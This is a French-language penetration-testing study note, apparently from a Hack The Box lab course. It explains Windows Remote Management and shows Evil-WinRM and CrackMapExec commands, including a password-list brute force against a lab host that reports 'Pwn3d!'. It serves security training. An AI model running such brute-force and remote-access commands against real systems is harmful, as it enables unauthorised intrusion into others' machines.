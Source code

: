 ## WinRM

La gestion à distance de Windows (WinRM) est l'implémentation Microsoft du protocole réseau Web Services Management Protocol (WS-Management). Il s'agit d'un protocole réseau basé sur des services Web XML utilisant le protocole SOAP (Simple Object Access Protocol) utilisé pour la gestion à distance des systèmes Windows. Il prend en charge la communication entre Web-Based Enterprise Management (WBEM) et Windows Management Instrumentation (WMI), qui peut appeler le Distributed Component Object Model (DCOM).

Cependant, pour des raisons de sécurité, WinRM doit être activé et configuré manuellement dans Windows 10. Par conséquent, cela dépend fortement de la sécurité de l'environnement dans un domaine ou un réseau local où nous voulons utiliser WinRM. Dans la plupart des cas, on utilise des certificats ou seulement des mécanismes d'authentification spécifiques pour augmenter sa sécurité. WinRM utilise les ports TCP 5985 (HTTP) et 5986 (HTTPS).

Un outil pratique que nous pouvons utiliser pour nos attaques par mot de passe est CrackMapExec, qui peut également être utilisé pour d'autres protocoles tels que SMB, LDAP, MSSQL et autres. Nous vous recommandons de lire la documentation officielle de cet outil pour vous familiariser avec celui-ci.

<hr>

## EvilWinRM
EvilWinRM permet de se connecter à un serveur par WinRM (donc c'est un client winrm)

### Installation
```
dsgsec@htb[/htb]$ sudo gem install evil-winrm

Fetching little-plugger-1.1.4.gem
Fetching rubyntlm-0.6.3.gem
Fetching builder-3.2.4.gem
Fetching logging-2.3.0.gem
Fetching gyoku-1.3.1.gem
Fetching nori-2.6.0.gem
Fetching gssapi-1.3.1.gem
Fetching erubi-1.10.0.gem
Fetching evil-winrm-3.3.gem
Fetching winrm-2.3.6.gem
Fetching winrm-fs-1.3.5.gem
Happy hacking! :)
```

### Utilisation
```
dsgsec@htb[/htb]$ evil-winrm -i <target-IP> -u <username> -p <password>
```


## CrackMapExec
### **Installation de CrackMapExec**

Nous pouvons installer CrackMapExec via apt sur un hôte Parrot ou cloner le référentiel GitHub et suivre les différentes méthodes d'installation, telles que l'installation à partir de la source et éviter les problèmes de dépendance.

```
dsgsec@htb[/htb]$ sudo apt-get -y install crackmapexec
```

### CrackMapExec Protocol-Specific Help
Notez que nous pouvons spécifier un protocole spécifique et recevoir un menu d'aide plus détaillé de toutes les options qui s'offrent à nous. CrackMapExec prend actuellement en charge l'authentification à distance à l'aide de MSSQL, SMB, SSH et WinRM.
```
dsgsec@htb[/htb]$ crackmapexec smb -h

usage: crackmapexec smb [-h] [-id CRED_ID [CRED_ID ...]] [-u USERNAME [USERNAME ...]] [-p PASSWORD [PASSWORD ...]]
                        [-k] [--aesKey] [--kdcHost] [--gfail-limit LIMIT | --ufail-limit LIMIT | --fail-limit LIMIT]
                        [-M MODULE] [-o MODULE_OPTION [MODULE_OPTION ...]] [-L] [--options] [--server {http,https}]
                        [--server-host HOST] [--server-port PORT] [-H HASH [HASH ...]] [--no-bruteforce]
                        [-d DOMAIN | --local-auth] [--port {139,445}] [--share SHARE] [--gen-relay-list OUTPUT_FILE]
                        [--continue-on-success] [--sam | --lsa | --ntds [{drsuapi,vss}]] [--shares] [--sessions]
                        [--disks] [--loggedon-users] [--users [USER]] [--groups [GROUP]] [--local-groups [GROUP]]
                        [--pass-pol] [--rid-brute [MAX_RID]] [--wmi QUERY] [--wmi-namespace NAMESPACE]
                        [--spider SHARE] [--spider-folder FOLDER] [--content] [--exclude-dirs DIR_LIST]
                        [--pattern PATTERN [PATTERN ...] | --regex REGEX [REGEX ...]] [--depth DEPTH] [--only-files]
                        [--put-file FILE FILE] [--get-file FILE FILE]
                        [--exec-method {atexec,wmiexec,smbexec,mmcexec}] [--force-ps32] [--no-output]
                        [-x COMMAND | -X PS_COMMAND] [--obfs] [--clear-obfscripts]
                        [target ...]

positional arguments:
  target                the target IP(s), range(s), CIDR(s), hostname(s), FQDN(s), file(s) containing a list of
                        targets, NMap XML or .Nessus file(s)

optional arguments:
  -h, --help            show this help message and exit
  -id CRED_ID [CRED_ID ...]
                        database credential ID(s) to use for authentication
  -u USERNAME [USERNAME ...]
                        username(s) or file(s) containing usernames
  -p PASSWORD [PASSWORD ...]
                        password(s) or file(s) containing passwords
  -k, --kerberos        Use Kerberos authentication from ccache file (KRB5CCNAME)
```

### CrackMapExec Usage
```
dsgsec@htb[/htb]$ crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```
```
dsgsec@htb[/htb]$ crackmapexec winrm 10.129.42.197 -u user.list -p password.list

WINRM       10.129.42.197   5985   NONE             [*] None (name:10.129.42.197) (domain:None)
WINRM       10.129.42.197   5985   NONE             [*] http://10.129.42.197:5985/wsman
WINRM       10.129.42.197   5985   NONE             [+] None\user:password (Pwn3d!)
```
L'apparition de (**Pwn3d!**) est le signe que nous pouvons très probablement exécuter des commandes système si nous nous connectons avec l'utilisateur brute-forcé. 
Un autre outil pratique que nous pouvons utiliser pour communiquer avec le service WinRM est Evil-WinRM, qui nous permet de communiquer efficacement avec le service WinRM.
